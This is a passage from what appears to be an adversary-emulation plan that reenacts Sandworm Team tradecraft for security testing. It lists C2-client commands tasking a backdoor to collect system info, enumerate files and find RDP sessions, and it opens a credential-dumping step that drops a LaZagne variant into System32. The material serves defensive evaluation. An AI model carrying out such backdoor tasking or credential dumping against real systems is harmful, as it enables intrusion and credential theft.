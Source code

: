 [Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L36)

Get Windows version info.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

./evalsC2client.py --set-task Exaramel-Windows "get-sysinfo"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L46)

List entire file system.

```bash
# Sandworm Team has enumerated files on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "enum-files C:\\"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L55)

Look for RDP connections.

```bash
# Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd netstat -ano | findstr 3389"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

## Step 17 - Credential Dumping

:microphone: `voice track`

During this step, Sandworm collects credentials.

Sandworm first uploads two files to disk:

```
1. C:\Windows\System32\oradump.exe
2. C:\Windows\System32\mslog.exe
```

oradump.exe is a variant of the open source tool, LaZagne. It has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.
